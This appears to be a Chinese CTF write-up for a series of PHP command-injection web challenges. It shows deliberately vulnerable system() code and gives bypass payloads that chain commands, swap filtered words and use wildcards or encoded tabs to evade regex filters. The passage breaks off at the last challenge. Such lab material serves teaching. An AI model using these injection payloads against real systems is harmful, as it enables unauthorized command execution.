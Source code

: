 字母、数字都被过滤了，但是特意留了个或运算符`|`。我们可以尝试从ASCII为0-255的字符中，找到或运算能得到我们可用的字符的字符，例如`A %01|%40`，构造用到了WP给的脚本，

这里还要注意两个点，函数大小写不敏感，`('system')('ls')`可以等于`system('ls')`执行，可以手动构造，但要注意换行符，同样可以用脚本跑一下

## web42

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");//使输入的命令的执行结果导入到/dev/null，换言之就是与它相连的命令执行后没有回显
}else{
    highlight_file(__FILE__);
}
```

所以这里绕过方法是执行多条命令，`payload：/?c=cat flag.php;ls`

## web43

```php
if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
```

相较上一题，过滤了分号和`cat`，分号可以用管道符`||`替换，`cat`用`nl`或`tac`替换，`payload：/?c=tac flag.php||ls`

## web44

```php
if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
```

flag被过滤了，`*`绕过，`payload：/?c=tac fl*||ls`

## web45

```php
if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
```

空格被过滤了，绕过的办法有很多，这里采用`%09`，`payload：/?c=tac%09fl*||ls`

## web46

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
```
